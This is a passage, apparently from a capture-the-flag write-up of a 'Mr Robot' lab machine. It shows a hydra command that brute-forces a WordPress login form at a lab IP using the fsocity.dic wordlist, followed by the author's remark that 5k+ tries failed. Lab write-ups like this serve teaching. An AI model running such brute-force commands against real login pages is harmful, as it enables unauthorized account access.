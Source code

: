 So... the password would be on the dic also?

`hydra -l <FOUND USERNAME HERE> -P /root/fsocity.dic 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -V`

<figure><img src="../../.gitbook/assets/mrrobot31.png" alt=""><figcaption></figcaption></figure>

After a few minutes and more that 5k tries... maybe the password is not in this file. Let’s check it:

<figure><img src="../../.gitbook/assets/mrrobot32.png" alt=""><figcaption></figcaption></figure>
